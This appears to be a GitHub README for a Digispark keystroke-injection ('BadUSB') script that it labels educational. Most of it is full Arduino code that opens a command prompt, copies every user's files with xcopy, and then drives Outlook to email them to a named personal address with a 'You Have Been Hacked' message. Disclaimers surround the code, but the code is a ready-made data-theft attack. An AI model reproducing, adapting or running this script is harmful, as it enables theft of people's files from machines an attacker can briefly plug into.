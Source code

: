 # Backup Files Theft Script

## Description

This script is an example of a malicious code that steals backup files from all users on a device and sends them to a specified email address. The script utilizes the `DigiKeyboard` library to simulate keyboard actions for executing commands on a Windows system. Please note that using or distributing such code for illegal purposes is strictly prohibited and unethical.

**Disclaimer: This script is for educational purposes only.**

## How It Works

1. **Stealing Backup Files:**
   - The script opens the Command Prompt (`cmd`) using a keypress sequence.
   - It uses the `xcopy` command to copy backup files from all users on the system to a folder (`C:\Backup\`).

2. **Sending the Files via Email:**
   - After copying the files, the script opens Microsoft Outlook and creates a new email.
   - The email is sent to a predefined static email address (in this case, `yagiz_aladag@hotmail.com`) with the subject "BackupFiles" and the message "You Have Been Hacked by Yagiz."

## Code Walkthrough

```cpp
#include "DigiKeyboard.h"

// Setup function: Initializes the keyboard actions
void setup() {
    DigiKeyboard.delay(500); 
    DigiKeyboard.sendKeyStroke(0); 
    DigiKeyboard.delay(500);

    // Open Command Prompt
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); 
    DigiKeyboard.delay(500);
    DigiKeyboard.print("cmd");
    DigiKeyboard.sendKeyStroke(KEY_CTRL_LEFT, MOD_SHIFT_LEFT); 
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(1000); 

    // Copy backup files
    DigiKeyboard.print("xcopy C:\\Users\\* C:\\Backup\\ /E /H /K /Y");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(5000); 

    // Open Outlook and send email
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); 
    DigiKeyboard.delay(500);
    DigiKeyboard.print("outlook");
    DigiKeyboard.sendKeyStroke(KEY_ENTER); 
    DigiKeyboard.delay(3000); 
    DigiKeyboard.sendKeyStroke(KEY_N, MOD_CONTROL_LEFT); 
    DigiKeyboard.delay(1000); 
    DigiKeyboard.print("yagiz_aladag@hotmail.com");
    DigiKeyboard.sendKeyStroke(KEY_TAB); 
    DigiKeyboard.delay(500);
    DigiKeyboard.print("BackupFiles");
    DigiKeyboard.sendKeyStroke(KEY_TAB); 
    DigiKeyboard.delay(500);
    DigiKeyboard.print("You Have Been Hacked by Yagiz.");
    DigiKeyboard.sendKeyStroke(KEY_TAB); 
    DigiKeyboard.delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER); 
}

void loop() {
    // No loop needed for this task
}
Important Notes
Ethical Use: This code is not intended for use in real-world scenarios. It showcases how a malicious actor could exploit automated keystrokes to perform harmful actions. Use of this code without consent is illegal.
Security: Always ensure your devices are secure and take proper measures to prevent unauthorized access.
License
This project is for educational purposes only. It is important to comply with ethical standards and legal requirements when using or distributing code.

Warning
This code should never be used for malicious intent. Always ensure that your work aligns with ethical guidelines and legal standards. The script shown here is to demonstrate how vulnerabilities in system security can be exploited.

For more information, refer to DigiKeyboard Documentation.
